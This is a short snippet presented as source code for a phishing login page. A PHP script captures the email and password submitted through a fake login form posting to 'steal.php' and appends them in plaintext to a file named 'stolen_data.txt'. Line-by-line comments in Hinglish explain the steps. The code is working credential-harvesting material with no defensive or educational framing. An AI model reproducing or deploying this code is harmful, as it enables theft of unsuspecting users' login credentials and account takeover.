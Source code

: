 <?php
$email = $_POST['email']; // User ke email field se data
$password = $_POST['password']; // User ke password field se data
$file = fopen("stolen_data.txt", "a"); // Data file me save
fwrite($file, "Email: $email | Password: $password\n"); // Data ko write karna
fclose($file); // File close karna
?>

<form action="steal.php" method="post">
    <input type="text" name="email" placeholder="Enter Email">
    <input type="password" name="password" placeholder="Enter Password">
    <button type="submit">Login</button>
</form>
